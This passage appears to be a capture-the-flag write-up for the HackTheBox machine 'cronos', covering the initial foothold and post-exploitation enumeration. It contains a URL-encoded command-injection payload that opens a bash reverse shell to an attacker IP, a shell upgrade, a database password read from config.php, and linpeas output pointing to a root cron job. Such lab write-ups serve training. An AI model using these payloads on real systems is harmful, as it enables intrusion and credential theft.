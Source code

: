 ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3e506e7f-dff0-4eef-b26a-46995d636bf5/Untitled.png)

[URL Encode and Decode - Online](https://www.urlencoder.org/)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6baf9f36-1ebd-4211-b72c-0d19d0ce4e98/Untitled.png)

```
command=bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.10.14.4%2F1337%20%3C%261%27&host=
```

Attempt 2 was successful

![URL-encoded payload seen in ZAP (POST Parameters)](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c21a493b-cf26-42e6-9fed-a823d6da2710/Untitled.png)

URL-encoded payload seen in ZAP (POST Parameters)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/49b7b10a-576e-4480-8915-1faac4e72b45/Untitled.png)

* Successful connection to our netcat listener indicates successful foothold to victim

#### Upgrade out shell to give it TTY:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### File Enumeration upon Foothold:

*   We notice a config.php

    ```
    cat config.php
    <?php
       define('DB_SERVER', 'localhost');
       define('DB_USERNAME', 'admin');
       define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
       define('DB_DATABASE', 'admin');
       $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
    ```
* We get credentials:
  * Username: admin
  * Password: kEjdbRigfBHUREiNSDs
* Perhaps we need to enumerate the internally running services and check what is going on!

```
netstat -ano 

/usr/sbin/mysqld
```

#### Linpeas Output:

```
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
cronos.hackthebox.gr
127.0.0.1:3306          0.0.0.0:*               LISTEN
lrwxrwxrwx 1 root root 31 Apr  9  2017 /etc/apache2/sites-enabled/laravel.conf -> ../sites-available/laravel.conf

<https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions>
/tmp/tmux-33
```
